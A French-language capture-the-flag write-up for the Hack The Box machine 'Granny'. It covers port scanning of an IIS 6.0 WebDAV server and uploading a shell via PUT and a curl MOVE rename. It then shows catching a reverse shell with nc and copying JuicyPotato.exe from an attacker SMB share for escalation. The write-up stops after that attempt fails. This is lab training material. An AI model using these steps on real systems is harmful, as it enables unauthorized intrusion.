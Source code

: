 ## Description
Granny, bien que similaire à Grandpa, peut être exploitée à l'aide de plusieurs méthodes différentes. La méthode prévue pour résoudre cette machine est la vulnérabilité largement connue du téléchargement Webdav.


## Recon
```
─# rustscan  --range 1-65535 -a $ip --ulimit 5000 -- -sV 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.182.246:80

└─# nmap -sV -sC -p80 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 19:55 CDT
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.182.246
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Server Date: Mon, 11 Mar 2024 00:55:32 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds

```

Ici je trouve des Methods potentielle qui sont autorisee 
- https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/

mettre un fichier, pour cela je vais utiliser `cadaver`

```
─# cadaver http://$ip                
dav:/> put /home/blo/CTFs/Boot2root/HTB/test.html
Uploading /home/blo/CTFs/Boot2root/HTB/test.html to `/test.html':
Progress: [=============================>] 100.0% of 16 bytes succeeded.
dav:/> 


```


Lorsque je met du `aspx` ca prend pas, mais je vais le mettre en txt et ensuite le deplacer

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav

```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```


```
─# sudo rlwrap nc -lnvp 1337                                
listening on [any] 1337 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.182.246] 1034
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service


```

## Escalation
```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

c:\windows\system32\inetsrv>
```

J'ai un privilege de SeImpersonatePrivilege qui est deja activee, alors je peux bien utiliser `JuicyPotato` pour elever mes privilege

```
─# impacket-smbserver s .
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
C:\WINDOWS\Temp>copy \\10.10.14.16\s\JuicyPotato.exe JuicyPotato.exe
copy \\10.10.14.16\s\JuicyPotato.exe JuicyPotato.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp

03/11/2024  03:37 AM    <DIR>          .
03/11/2024  03:37 AM    <DIR>          ..
03/01/2024  04:41 AM           347,648 JuicyPotato.exe
04/12/2017  09:14 PM    <DIR>          rad61C21.tmp
04/12/2017  09:14 PM    <DIR>          radDDF39.tmp
02/28/2024  04:03 AM             1,890 sys.txt
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:24 PM    <DIR>          vmware-SYSTEM
03/11/2024  02:39 AM            28,362 vmware-vmsvc.log
09/16/2021  02:10 PM             5,826 vmware-vmusr.log
03/11/2024  02:40 AM               819 vmware-vmvss.log
               6 File(s)        407,297 bytes
               5 Dir(s)   1,325,813,760 bytes free

C:\WINDOWS\Temp>
```

Mais l'exploit ne marche pas. alors je vais voir le system

```
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation


```

- https://kakyouim.hatenablog.com/entry/2020/05/27/010807


Note: Pour les derniers machines. faut utiliser metasploit et ces suggestions